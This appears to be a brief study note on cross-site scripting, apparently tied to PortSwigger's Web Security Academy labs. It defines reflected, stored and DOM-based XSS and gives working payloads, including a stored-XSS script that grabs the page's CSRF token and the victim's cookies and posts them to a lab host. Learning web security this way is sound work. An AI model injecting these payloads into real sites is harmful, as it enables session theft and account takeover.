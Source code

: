 # Cross-Site scripting 

- ***Cheatsheet***: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## Cross-site scripting contexts

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)> 
```

## Reflected XSS
The malicious script comes from the current HTTP request.

## Stored XSS
The malicious script comes from the website's database.

```html
</p><script>

window.onload = function exampleFunction() {
  fetch('https://aca71f681f59794b806d32780018002c.web-security-academy.net/post/comment',
  {method:'POST',
  mode:'cors',
  cache:'no-cache',
  credentials:'same-origin',
  headers:{},
  redirect:'follow',
  referrerPolicy:'no-referrer',
  body:'csrf='+document.getElementsByName('csrf')[0].value+'&postId=2&comment='+document.cookie+'&name=test&email=http://test%40gmail.com&website=http://www.google.es'

});}</script><p>ScriptHere

```


## DOM-based XSS
The vulnerability exists in client-side code rather than server-side code.


